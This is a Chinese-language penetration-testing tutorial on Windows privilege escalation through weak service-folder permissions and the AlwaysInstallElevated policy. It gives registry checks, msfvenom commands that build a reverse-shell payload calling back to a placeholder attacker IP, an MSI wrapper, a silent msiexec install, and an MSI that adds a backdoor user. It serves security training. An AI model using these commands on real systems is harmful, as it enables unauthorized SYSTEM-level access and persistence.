







# 网络安全系统教程：P89：76. 其他易受攻击服务提权

## 📖 概述
在本节课中，我们将学习Windows系统中几种利用服务配置漏洞进行权限提升的方法。这些方法主要针对服务路径、文件夹权限以及特定的系统策略设置。掌握这些技术对于渗透测试和漏洞挖掘至关重要。

---

## 🔍 不安全的文件/文件夹权限提权
上一节我们介绍了不安全的服务路径提权，本节中我们来看看与之相似的另一种方法：利用不安全的文件或文件夹权限。

这种方法的核心是，攻击者对目标服务可执行程序所在的目录拥有写入权限。因此，攻击者可以尝试直接替换该目录下的可执行程序文件。

以下是利用步骤：
1.  检查目标服务可执行程序路径所在的目录权限。
2.  如果拥有写入权限，则使用一个反向Shell的Payload替换原有的可执行文件。
3.  当服务重启或系统重启后，服务会以`SYSTEM`权限执行被替换的恶意程序，从而为攻击者提供一个高权限的Shell。

其核心操作可以用以下命令概括：
```bash
# 将恶意payload.exe复制到目标服务的可执行程序路径下，覆盖原文件
copy payload.exe "C:\Program Files\Vulnerable Service\service.exe"
```



---



## ⚙️ AlwaysInstallElevated 策略提权
接下来，我们探讨最后一种方法：利用`AlwaysInstallElevated`策略进行提权。

这种提权方式利用了Windows的一个策略设置：允许任何用户以`NT AUTHORITY\SYSTEM`权限安装MSI文件。前提是目标系统启用了此策略。

### 策略检测与利用原理
首先，我们需要判断目标系统是否启用了`AlwaysInstallElevated`策略。

我们可以通过查询注册表来检查：
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
如果两个注册表项中的`AlwaysInstallElevated`值均为`0x1`，则表示策略已启用。如果系统找不到该注册表项，则表示策略未启用。

当策略启用时，任何用户执行的MSI安装包都会以`SYSTEM`权限运行。因此，我们可以创建一个包含后门的MSI文件，并以普通用户身份执行它，最终获得一个`SYSTEM`权限的会话。

### 利用步骤
以下是具体的利用流程：

1.  **生成Payload**：首先，使用MSFvenom生成一个Windows可执行文件格式的Payload。
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
    ```

2.  **生成恶意MSI安装包**：接着，使用`msfvenom`将这个Payload嵌入到一个MSI安装包中。
    ```bash
    msfvenom -p windows/exec CMD="C:\\path\\to\\payload.exe" -f msi -o malicious.msi
    ```
    这个MSI文件在执行时，会调用并执行我们指定的Payload。

3.  **上传与执行**：将生成的`payload.exe`和`malicious.msi`文件上传到目标机器。然后，使用`msiexec`命令以普通用户身份静默安装MSI。
    ```cmd
    msiexec /quiet /qn /i malicious.msi
    ```
    由于策略已启用，安装过程会以`SYSTEM`权限运行，从而高权限执行我们的Payload。

4.  **更简单的利用**：也可以直接生成一个用于创建高权限用户的MSI Payload。
    ```bash
    msfvenom -p windows/adduser USER=hacker PASS=Hacker123! -f msi -o useradd.msi
    ```
    执行此MSI后，会以`SYSTEM`权限在系统中创建一个新用户。



**命令参数说明**：
*   `/quiet`：安静模式，不显示用户界面。
*   `/qn`：无GUI模式，完全静默安装。
*   `/i`：指定要安装的MSI程序包。



---



## 🎯 总结
本节课我们一起学习了两种额外的服务提权技术：
1.  **利用不安全的文件/文件夹权限**：通过替换服务目录下的可执行文件，在服务重启时获得`SYSTEM`权限。
2.  **利用AlwaysInstallElevated策略**：在系统启用该策略的前提下，通过执行恶意的MSI安装包，使Payload以`SYSTEM`权限运行。





这些技术都需要对目标系统的配置有深入的了解。请大家务必在授权环境下进行练习，以巩固所学知识。课后作业是动手复现本节课讲解的提权过程，并理解其原理。